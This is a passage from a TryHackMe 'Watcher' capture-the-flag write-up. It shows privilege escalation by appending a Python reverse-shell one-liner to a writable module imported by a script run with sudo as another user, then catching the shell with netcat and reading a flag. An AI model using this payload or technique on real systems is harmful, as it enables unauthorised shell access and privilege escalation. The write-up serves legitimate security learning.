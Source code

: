 The `will_script.py` import the `get_command()` function from the `cmd.py`. Then, it will use the `whitelist` to compare the command the user’s input → If the command is available → The script will execute the command.

To exploit this script:

1. Insert a reverse shell payload into the `[cmd.py](http://cmd.py)` which I have the permission on it:

   ```
   mat@watcher:~/scripts$ echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.63.75",4446));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' >> cmd.py
   ```

2. Execute the `will_script.py` within `sudo` and an argument of `1` or `2` or `3` to make it run successfully:

   ```
   mat@watcher:~/scripts$ sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1
   ```

Start another listener on the local machine:

```
┌──(kali㉿kali)-[~/TryHackMe/Watcher]
└─$ nc -lvnp 4446
listening on [any] 4446 ...
connect to [10.9.63.75] from (UNKNOWN) [10.10.204.165] 36128
$ id
id
uid=1000(will) gid=1000(will) groups=1000(will),4(adm)
```

Navigate to `will`'s directory and get the flag:

```
$ python3 -c "import pty;pty.spawn('/bin/bash')"
python3 -c "import pty;pty.spawn('/bin/bash')"
will@watcher:~/scripts$ cd /home/will
cd /home/will
will@watcher:/home/will$ ls -l
ls -l
total 4
-rw------- 1 will will 41 Dec  3  2020 flag_6.txt
will@watcher:/home/will$ cat flag_6.txt
cat flag_6.txt
FLAG{REDACTED}
```

## Flag 7

From this point, you can use `linpeas.sh` to rapidly enumerate the vulnerabilities to escalate privilege to `root` user.

Otherwise, I manually use `find`:
